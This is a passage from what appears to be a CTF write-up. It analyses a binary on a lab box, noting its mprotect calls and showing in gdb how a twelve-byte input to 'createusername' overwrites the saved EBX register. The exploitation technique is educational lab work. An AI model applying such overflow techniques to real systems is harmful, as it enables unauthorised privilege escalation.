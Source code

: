 ```

   0x80000d94 <main+29>:        push   0x1
   0x80000d96 <main+31>:        push   0x3add6
   0x80000d9b <main+36>:        push   0xb7e1a000
   0x80000da0 <main+41>:        call   0xb7efcd50 <mprotect>
   0x80000da5 <main+46>:        add    esp,0xc
   0x80000da8 <main+49>:        push   0x5
   0x80000daa <main+51>:        push   0x3a000
   0x80000daf <main+56>:        push   0xb7e1a000
   0x80000db4 <main+61>:        call   0xb7efcd50 <mprotect>
   0x80000db9 <main+66>:        add    esp,0xc

```

These are calls to `mprotect`, which is defined [here](https://www.man7.org/linux/man-pages/man2/mprotect.2.html). This function will the permissions on sections of memory. I’ll dig into this more in [Beyond Root](#beyond-root), but for now, I’ll just note the address of `mprotect`, as I’ll need it later.

#### Small Overflow

I spent a minute looking at the disassembly for `createusername`. The stack frame for this function looks like:

![image-20200825172142313](https://0xdfimages.gitlab.io/img/image-20200825172142313.png)

The overflow is on `for_user`, which allows me to write twelve bytes instead of four. The only thing I can overflow with that is the stored EBX for `main`. When this function starts, it pushes EBX onto the stack, and then on return, it pops it back into EBX, preserving the value from `main`. `main` expects to have EBX preserved across this function call, but I can change it.

To show this, I’ll create a file:

```

xalvas@calamity:~$ echo -n "AAAABBBBCCCC" > /tmp/0xdf

```

I’ll open `gdb` and put a break point at the call to `createusername` with `b *main+187`, and then run:

```

Breakpoint 3, 0x80000e32 in main ()
gdb-peda$ p $ebx
$10 = 0x80003000
gdb-peda$ n

Filename:  /tmp/0xdf

gdb-peda$ p $ebx
$11 = 0x43434343

```
